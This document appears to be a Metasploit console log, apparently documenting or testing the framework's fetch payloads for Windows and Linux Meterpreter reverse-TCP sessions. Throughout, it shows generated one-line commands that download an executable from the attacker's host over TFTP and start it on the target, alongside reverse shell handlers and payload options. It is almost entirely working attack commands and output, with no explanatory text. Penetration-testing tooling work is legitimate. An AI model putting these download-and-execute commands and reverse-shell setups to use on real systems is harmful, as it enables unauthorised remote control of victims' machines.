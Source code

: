```msf
[*] Command to run on remote host: curl -so plEYxIdBQna.exe tftp://10.5.135.201:8080/test1 & start /B plEYxIdBQna.exe
[*] Payload Handler Started as Job 4

[*] starting tftpserver on 10.5.135.201:8080
[*] Started reverse TCP handler on 10.5.135.201:4445 
msf6 payload(cmd/windows/tftp/x64/meterpreter/reverse_tcp) > jobs

Jobs
====

  Id  Name                    Payload                                       Payload opts
  --  ----                    -------                                       ------------
  2   Exploit: multi/handler  cmd/windows/tftp/x64/meterpreter/reverse_tcp  tcp://10.5.135.201:4444
  4   Exploit: multi/handler  cmd/windows/tftp/x64/meterpreter/reverse_tcp  tcp://10.5.135.201:4445

msf6 payload(cmd/windows/tftp/x64/meterpreter/reverse_tcp) > netstat -an | grep 8080
[*] exec: netstat -an | grep 8080

udp        0      0 10.5.135.201:8080       0.0.0.0:*                          
udp        0      0 10.5.135.201:8080       0.0.0.0:*                          
msf6 payload(cmd/windows/tftp/x64/meterpreter/reverse_tcp) > set FETCH_URIPATH test4
FETCH_URIPATH => test4
msf6 payload(cmd/windows/tftp/x64/meterpreter/reverse_tcp) > set LPORT 8547
LPORT => 8547
msf6 payload(cmd/windows/tftp/x64/meterpreter/reverse_tcp) > to_handler

[*] Command to run on remote host: curl -so DOjmRoCOSMn.exe tftp://10.5.135.201:8080/test4 & start /B DOjmRoCOSMn.exe
[*] Payload Handler Started as Job 5

[*] starting tftpserver on 10.5.135.201:8080
[*] Started reverse TCP handler on 10.5.135.201:8547 
msf6 payload(cmd/windows/tftp/x64/meterpreter/reverse_tcp) > netstat -an | grep 8080
[*] exec: netstat -an | grep 8080

udp        0      0 10.5.135.201:8080       0.0.0.0:*                          
udp        0      0 10.5.135.201:8080       0.0.0.0:*                          
udp        0      0 10.5.135.201:8080       0.0.0.0:*                          

```

`msf
msf6 exploit(multi/ssh/sshexec) > use payload/cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 payload(cmd/linux/http/x64/meterpreter/reverse_tcp) > show options

Module options (payload/cmd/linux/http/x64/meterpreter/reverse_tcp):

Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
FETCH_FILENAME      YXeSdwsoEfOH     no        Name to use on remote system when storing payload
FETCH_SRVHOST       0.0.0.0          yes       Local IP to use for serving payload
FETCH_SRVPORT       8080             yes       Local port to use for serving payload
FETCH_URIPATH                        no        Local URI to use for serving payload
FETCH_WRITABLE_DIR                   yes       Remote writable dir to store payload
LHOST                                yes       The listen address (an interface may be specified)
LPORT               4444             yes       The listen port
